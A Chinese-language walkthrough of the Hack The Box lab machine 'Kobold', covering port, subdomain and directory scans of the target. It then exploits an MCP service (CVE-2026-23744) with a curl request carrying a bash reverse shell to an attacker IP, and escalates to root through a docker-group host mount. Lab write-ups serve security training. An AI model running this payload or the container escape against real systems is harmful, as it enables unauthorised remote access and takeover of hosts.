










# HTB Season10 - Kobold

## 信息收集

### 端口扫描

```shell
nmap -p- --min-rate 5000 -T4 10.129.187.165
```



```shell
nmap -sCV -O -p22,80,443,3552 --min-rate 5000 -T4 10.129.187.165
```

```shell
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-24 04:43 -0400
Nmap scan report for 10.129.187.165
Host is up (0.13s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 8c:45:12:36:03:61:de:0f:0b:2b:c3:9b:2a:92:59:a1 (ECDSA)
|_  256 d2:3c:bf:ed:55:4a:52:13:b5:34:d2:fb:8f:e4:93:bd (ED25519)
80/tcp   open  http     nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://kobold.htb/
443/tcp  open  ssl/http nginx 1.24.0 (Ubuntu)
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
| ssl-cert: Subject: commonName=kobold.htb
| Subject Alternative Name: DNS:kobold.htb, DNS:*.kobold.htb
| Not valid before: 2026-03-15T15:08:55
|_Not valid after:  2125-02-19T15:08:55
|_ssl-date: TLS randomness does not represent time
|_http-title: Did not follow redirect to https://kobold.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
3552/tcp open  http     Golang net/http server
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, no-store, must-revalidate
|     Content-Length: 2081
|     Content-Type: text/html; charset=utf-8
|     Expires: 0
|     Pragma: no-cache
|     Date: Tue, 24 Mar 2026 05:37:12 GMT
|     <!doctype html>
|     <html lang="%lang%">
|     <head>
|     <meta charset="utf-8" />
|     <meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate" />
|     <meta http-equiv="Pragma" content="no-cache" />
|     <meta http-equiv="Expires" content="0" />
|     <link rel="icon" href="/api/app-images/favicon" />
|     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, viewport-fit=cover" />
|     <link rel="manifest" href="/app.webmanifest" />
|     <meta name="theme-color" content="oklch(1 0 0)" media="(prefers-color-scheme: light)" />
|     <meta name="theme-color" content="oklch(0.141 0.005 285.823)" media="(prefers-color-scheme: dark)" />
|     <link rel="modu
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, no-store, must-revalidate
|     Content-Length: 2081
|     Content-Type: text/html; charset=utf-8
|     Expires: 0
|     Pragma: no-cache
|     Date: Tue, 24 Mar 2026 05:37:13 GMT
|     <!doctype html>
|     <html lang="%lang%">
|     <head>
|     <meta charset="utf-8" />
|     <meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate" />
|     <meta http-equiv="Pragma" content="no-cache" />
|     <meta http-equiv="Expires" content="0" />
|     <link rel="icon" href="/api/app-images/favicon" />
|     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, viewport-fit=cover" />
|     <link rel="manifest" href="/app.webmanifest" />
|     <meta name="theme-color" content="oklch(1 0 0)" media="(prefers-color-scheme: light)" />
|     <meta name="theme-color" content="oklch(0.141 0.005 285.823)" media="(prefers-color-scheme: dark)" />
|_    <link rel="modu
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3552-TCP:V=7.98%I=7%D=3/24%Time=69C24E9D%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,8FF,"HTTP/1\.0\x20200\x20OK\r\nAccept-Ranges:\
SF:x20bytes\r\nCache-Control:\x20no-cache,\x20no-store,\x20must-revalidate
SF:\r\nContent-Length:\x202081\r\nContent-Type:\x20text/html;\x20charset=u
SF:tf-8\r\nExpires:\x200\r\nPragma:\x20no-cache\r\nDate:\x20Tue,\x2024\x20
SF:Mar\x202026\x2005:37:12\x20GMT\r\n\r\n<!doctype\x20html>\n<html\x20lang
SF:=\"%lang%\">\n\t<head>\n\t\t<meta\x20charset=\"utf-8\"\x20/>\n\t\t<meta
SF:\x20http-equiv=\"Cache-Control\"\x20content=\"no-cache,\x20no-store,\x2
SF:0must-revalidate\"\x20/>\n\t\t<meta\x20http-equiv=\"Pragma\"\x20content
SF:=\"no-cache\"\x20/>\n\t\t<meta\x20http-equiv=\"Expires\"\x20content=\"0
SF:\"\x20/>\n\t\t<link\x20rel=\"icon\"\x20href=\"/api/app-images/favicon\"
SF:\x20/>\n\t\t<meta\x20name=\"viewport\"\x20content=\"width=device-width,
SF:\x20initial-scale=1,\x20maximum-scale=1,\x20viewport-fit=cover\"\x20/>\
SF:n\t\t<link\x20rel=\"manifest\"\x20href=\"/app\.webmanifest\"\x20/>\n\t\
SF:t<meta\x20name=\"theme-color\"\x20content=\"oklch\(1\x200\x200\)\"\x20m
SF:edia=\"\(prefers-color-scheme:\x20light\)\"\x20/>\n\t\t<meta\x20name=\"
SF:theme-color\"\x20content=\"oklch\(0\.141\x200\.005\x20285\.823\)\"\x20m
SF:edia=\"\(prefers-color-scheme:\x20dark\)\"\x20/>\n\t\t\n\t\t<link\x20re
SF:l=\"modu")%r(HTTPOptions,8FF,"HTTP/1\.0\x20200\x20OK\r\nAccept-Ranges:\
SF:x20bytes\r\nCache-Control:\x20no-cache,\x20no-store,\x20must-revalidate
SF:\r\nContent-Length:\x202081\r\nContent-Type:\x20text/html;\x20charset=u
SF:tf-8\r\nExpires:\x200\r\nPragma:\x20no-cache\r\nDate:\x20Tue,\x2024\x20
SF:Mar\x202026\x2005:37:13\x20GMT\r\n\r\n<!doctype\x20html>\n<html\x20lang
SF:=\"%lang%\">\n\t<head>\n\t\t<meta\x20charset=\"utf-8\"\x20/>\n\t\t<meta
SF:\x20http-equiv=\"Cache-Control\"\x20content=\"no-cache,\x20no-store,\x2
SF:0must-revalidate\"\x20/>\n\t\t<meta\x20http-equiv=\"Pragma\"\x20content
SF:=\"no-cache\"\x20/>\n\t\t<meta\x20http-equiv=\"Expires\"\x20content=\"0
SF:\"\x20/>\n\t\t<link\x20rel=\"icon\"\x20href=\"/api/app-images/favicon\"
SF:\x20/>\n\t\t<meta\x20name=\"viewport\"\x20content=\"width=device-width,
SF:\x20initial-scale=1,\x20maximum-scale=1,\x20viewport-fit=cover\"\x20/>\
SF:n\t\t<link\x20rel=\"manifest\"\x20href=\"/app\.webmanifest\"\x20/>\n\t\
SF:t<meta\x20name=\"theme-color\"\x20content=\"oklch\(1\x200\x200\)\"\x20m
SF:edia=\"\(prefers-color-scheme:\x20light\)\"\x20/>\n\t\t<meta\x20name=\"
SF:theme-color\"\x20content=\"oklch\(0\.141\x200\.005\x20285\.823\)\"\x20m
SF:edia=\"\(prefers-color-scheme:\x20dark\)\"\x20/>\n\t\t\n\t\t<link\x20re
SF:l=\"modu");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.65 seconds
```

### 子域名枚举

```shell
wfuzz -c -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt -u https://kobold.htb -H "HOST:FUZZ.kobold.htb" --hc 301
```




### 目录扫描

```shell
dirsearch -u https://kobold.htb
dirsearch -u https://mcp.kobold.htb
dirsearch -u http://kobold.htb:3552
```

#### 443

None

#### 3552

```shell
Target: http://kobold.htb:3552/

[04:54:24] Starting: 
[04:55:05] 200 -  604B  - /api/docs
[04:55:10] 200 -  189B  - /api/version                                                  
[04:55:34] 301 -    0B  - /img  ->  img/                                    
[04:55:35] 301 -    0B  - /index.html  ->  ./                               
                                                        
Task Completed
```

#### mcp

```shell
Target: https://mcp.kobold.htb/

[07:49:31] Starting:

[07:50:44] 200 -   54B  - /health                                           
                                                                             
Task Completed                    
```

### 漏洞分析

#### 443

433只有一个静态网页,无可利用点



#### 3552

网站首页暴露Github仓库,以及版本为1.13.0



`/api/version`返回版本为1.13.0,进一步印证版本为1.13.0



该版本存在CVE-2026-23944，但是该漏洞只能通过api未授权访问远程docker,该环境只存在本地docker,无法利用该漏洞

#### mcp

访问页面,同样泄露Github仓库,以及版本为1.4.2



该版本存在CVE-2026-23744(RCE)

### 利用漏洞

#### CVE-2026-23744

`https://github.com/FrenzisRed/CVE-2026-23744`

```shell
curl -k -X POST "https://mcp.kobold.htb/api/mcp/connect" \
  -H "Content-Type: application/json" \
  -d '{"serverConfig": {"command": "/bin/bash","args": ["-c", "bash -i >& /dev/tcp/10.10.16.13/4444 0>&1"],"env": {}},"serverId": "exploit"}'
```



#### docker挂载逃逸

发现存在docker



切换到docker组

```shell
newgrp docker
```



```shell
docker run -v /:/hostfs --rm --user root --entrypoint cat privatebin/nginx-fpm-alpine:2.0.2 /hostfs/root/root.txt
```

